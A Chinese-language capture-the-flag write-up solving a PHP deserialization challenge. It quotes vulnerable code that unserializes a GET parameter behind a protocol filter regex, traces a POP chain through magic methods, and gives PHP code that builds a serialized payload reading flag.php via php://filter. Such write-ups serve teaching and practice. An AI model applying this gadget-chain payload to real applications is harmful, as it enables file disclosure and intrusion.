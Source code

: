```php
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```
分析过程不细说，大概说一下思路：
- 首先是需要反序列化GET请求的`pop`参数，可以看到`__wakeup`方法，一般这里是入口点，顺带看一下出口的话应该是`Modifier`类的`append`方法，可以文件包含；
- 接着看到`__wakeup`中过滤了很多协议，但是注意`php://filter`没有过滤，这里没有什么思路，所以反向思考一下；
- 从出口溯源，`append`方法可以通过`Modifier`类的`__invoke`来调用，那么就需要某个地方实例化一个`Modifier`类对象，然后把这个对象当做函数使用；
- 继续溯源可以发现在`Test`类中`__get`方法将成员变量当做函数使用，那我们可以让成员变量初始化为`Modifier`类对象，接着需要找到在哪里可以实例化`Test`类，并且调用了`Test`类不存在的成员变量，来触发`__get`；
- 溯源可以发现`Show`类中的`__toString`方法调用了成员变量`$str`的`source`变量，可以将`$str`赋值为`Test`类对象，这样就相当于调用了`Test`类不存在的方法`source`，即可触发`__get`，那在哪里可以触发`__toString`呢；
- 回到第二步，我们可以在`Show`的构造函数中，将对象传入给`$source`变量，这样在`__wakeup`的时候需要`$source`作为字符串做正则，就会将对象转为字符串，从而触发`__toString`方法。

生成payload的代码如下：
```php

<?php
class Modifier {
    protected  $var = 'php://filter/read=convert.base64-encode/resource=flag.php';
}
class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
    }
}
class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$b = new Show('anything');
$b->str = new Test();
$c = new Show($b);
echo serialize($c);
echo "\n";
echo urlencode(serialize($c));
```